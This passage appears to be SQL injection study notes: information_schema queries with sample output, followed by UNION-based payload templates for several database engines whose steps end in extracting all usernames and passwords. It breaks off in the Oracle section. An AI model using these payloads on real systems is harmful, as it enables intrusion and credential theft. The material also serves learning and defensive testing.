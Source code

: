    ```sql
   SELECT * FROM information_schema.tables
   -- Output like
   TABLE_CATALOG TABLE_SCHEMA TABLE_NAME TABLE_TYPE
   =====================================================
   MyDatabase dbo Products BASE TABLE
   MyDatabase dbo Users BASE TABLE
   MyDatabase dbo Feedback BASE TABLE
   
   SELECT * FROM information_schema.columns WHERE table_name = 'Users'
   -- Output like
   TABLE_CATALOG TABLE_SCHEMA TABLE_NAME COLUMN_NAME DATA_TYPE
   =================================================================
   MyDatabase dbo Users UserId int
   MyDatabase dbo Users Username varchar
   MyDatabase dbo Users Password varchar
   ```

   

   **Reach SENSITIVE data steps :**

    - Microsoft, MySQL and PostgreSQL

      - calculate the number of columns

        `'order by # --'`

      - check data type of each one 

        `' UNION SELECT [string|int|...]--`

      - retrieve the list of tables in the database

        `' UNION SELECT [table_name,[...],NULL] FROM information_schema.tables--`

      - Find the name of the table containing user credentials.

      - retrieve the details of the columns in the table

        `'UNION SELECT [column_name,[...],NULL] FROM information_schema.columns WHERE table_name='[table_name]'--`

      - Find the names of the columns containing usernames and passwords

      - retrieve the usernames and passwords for all users

         `' UNION SELECT [username_coulmn], [password_coulmn] FROM [table_name]--`

        

    - Oracle databases

      - calculate the number of columns

        `'order by # --'`

      - check data type of each one 

        `' UNION SELECT [string|int|...] FROM DUAL--`

      - retrieve the list of tables in the database
